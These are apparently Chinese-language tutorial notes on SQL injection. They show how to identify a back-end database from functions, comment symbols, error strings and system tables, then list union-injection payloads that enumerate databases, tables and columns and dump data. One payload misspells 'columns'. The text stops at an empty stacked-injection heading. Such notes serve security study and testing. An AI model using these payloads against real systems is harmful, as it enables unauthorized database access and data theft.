 常见的数据库Oracle、MySQL、SQL Server、Access、MSsql、mongodb等

关系型数据库：由二维表及其之间的联系组成的一个数据组织。如：Oracle、DB2、MySql

1.是否可以使用特定的函数来判断，该数据库特有的

len()函数：mssql、mysql、db2

length()函数:Oracle、informix

substring：mssql

substr：oracle

version()>1 返回与@@version>1 相同页面时，则可能是mysql。如果出现提示version()错误时，则可能是mssql。

2.是否可以使用辅助的符号来判断，如注释符号、多语句查询符等等

/*  mysql特有注释符，返回错误说明不是mysql

--  是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符

;   是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。

;-- 在注入点后加分号、斜杠、斜杠，返回正常是mssql，返回错误是ACCESS

3.是否可以编码查询

4.是否显可以利用错信息

错误提示Microsoft JET Database Engine 错误 '80040e14'，

JET是ACCESS数据库

ODBC是MSSQL数据库


5.是否存在数据库某些特性辅助判断

and exists (select count(*) from sysobjects)    返回正常是mssql

and exists (select count(*) from msysobjects)   两条，和上一条返回都不正常是ACCESS

如果是字符型，参数后加 ' 最后加 ;--

## 注入方法

##### union注入

```
order by n #确定列数
union select 1，2，3 #进行回显，查看可见位
union select 1,database(),3 #爆破库名
union select 1,table_name,3 from information_schema.tables where table_schema='库名' limit 0,1;#进行表名爆库 limit 0，1显示第一个
union select 1,column_name,3 from information_schema.cloumns where table_schema='库名' and table_name='表名'#进行字段名查询
union select 1,字段名,3 from 库名.表名#获取数据
```

##### 堆叠注入

